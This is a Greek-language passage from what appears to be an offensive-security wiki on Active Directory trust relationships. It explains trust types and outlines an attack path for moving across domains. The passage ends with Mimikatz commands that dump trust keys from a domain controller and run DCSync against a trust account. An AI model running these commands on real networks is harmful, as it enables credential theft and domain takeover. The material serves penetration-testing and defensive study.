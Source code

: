 * **Εμπιστοσύνες Δάσους**: Αυτός ο τύπος εμπιστοσύνης είναι μια διπλή μεταβατική εμπιστοσύνη μεταξύ δύο ριζικών τομέων δάσους, επιβάλλοντας επίσης φιλτράρισμα SID για την ενίσχυση των μέτρων ασφαλείας.
* **Εμπιστοσύνες MIT**: Αυτές οι εμπιστοσύνες καθιερώνονται με μη Windows, [RFC4120-compliant](https://tools.ietf.org/html/rfc4120) τομείς Kerberos. Οι εμπιστοσύνες MIT είναι λίγο πιο εξειδικευμένες και απευθύνονται σε περιβάλλοντα που απαιτούν ενσωμάτωση με συστήματα βασισμένα σε Kerberos εκτός του οικοσυστήματος Windows.

#### Άλλες διαφορές στις **σχέσεις εμπιστοσύνης**

* Μια σχέση εμπιστοσύνης μπορεί επίσης να είναι **μεταβατική** (A εμπιστεύεται B, B εμπιστεύεται C, τότε A εμπιστεύεται C) ή **μη μεταβατική**.
* Μια σχέση εμπιστοσύνης μπορεί να ρυθμιστεί ως **αμφίδρομη εμπιστοσύνη** (και οι δύο εμπιστεύονται ο ένας τον άλλον) ή ως **μονοκατεύθυνση εμπιστοσύνη** (μόνο ένας από αυτούς εμπιστεύεται τον άλλο).

### Διαδρομή Επίθεσης

1. **Καταγράψτε** τις σχέσεις εμπιστοσύνης
2. Ελέγξτε αν οποιοδήποτε **ασφαλές κύριο** (χρήστης/ομάδα/υπολογιστής) έχει **πρόσβαση** σε πόρους του **άλλου τομέα**, ίσως μέσω καταχωρήσεων ACE ή μέσω συμμετοχής σε ομάδες του άλλου τομέα. Αναζητήστε **σχέσεις μεταξύ τομέων** (η εμπιστοσύνη δημιουργήθηκε πιθανώς για αυτό).
1. Το kerberoast σε αυτή την περίπτωση θα μπορούσε να είναι μια άλλη επιλογή.
3. **Συμβιβάστε** τους **λογαριασμούς** που μπορούν να **μεταβούν** μέσω τομέων.

Οι επιτιθέμενοι θα μπορούσαν να έχουν πρόσβαση σε πόρους σε άλλο τομέα μέσω τριών κύριων μηχανισμών:

* **Τοπική Συμμετοχή Ομάδας**: Οι κύριοι μπορεί να προστεθούν σε τοπικές ομάδες σε μηχανές, όπως η ομάδα “Administrators” σε έναν διακομιστή, παρέχοντας τους σημαντικό έλεγχο σε αυτή τη μηχανή.
* **Συμμετοχή Ομάδας Ξένου Τομέα**: Οι κύριοι μπορούν επίσης να είναι μέλη ομάδων εντός του ξένου τομέα. Ωστόσο, η αποτελεσματικότητα αυτής της μεθόδου εξαρτάται από τη φύση της εμπιστοσύνης και την έκταση της ομάδας.
* **Λίστες Ελέγχου Πρόσβασης (ACLs)**: Οι κύριοι μπορεί να καθορίζονται σε μια **ACL**, ιδιαίτερα ως οντότητες σε **ACEs** εντός μιας **DACL**, παρέχοντας τους πρόσβαση σε συγκεκριμένους πόρους. Για όσους επιθυμούν να εμβαθύνουν στους μηχανισμούς των ACLs, DACLs και ACEs, το λευκό έγγραφο με τίτλο “[An ACE Up The Sleeve](https://specterops.io/assets/resources/an\_ace\_up\_the\_sleeve.pdf)” είναι μια ανεκτίμητη πηγή.

### Κλιμάκωση Δικαιωμάτων Δάσους από Παιδί σε Γονέα
```
Get-DomainTrust

SourceName      : sub.domain.local    --> current domain
TargetName      : domain.local        --> foreign domain
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST       --> WITHIN_FOREST: Both in the same forest
TrustDirection  : Bidirectional       --> Trust direction (2ways in this case)
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```
{% hint style="warning" %}
Υπάρχουν **2 αξιόπιστα κλειδιά**, ένα για _Παιδί --> Γονέας_ και ένα άλλο για _Γονέας_ --> _Παιδί_.\
Μπορείτε να χρησιμοποιήσετε αυτό που χρησιμοποιείται από το τρέχον domain με:
```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```
{% endhint %}
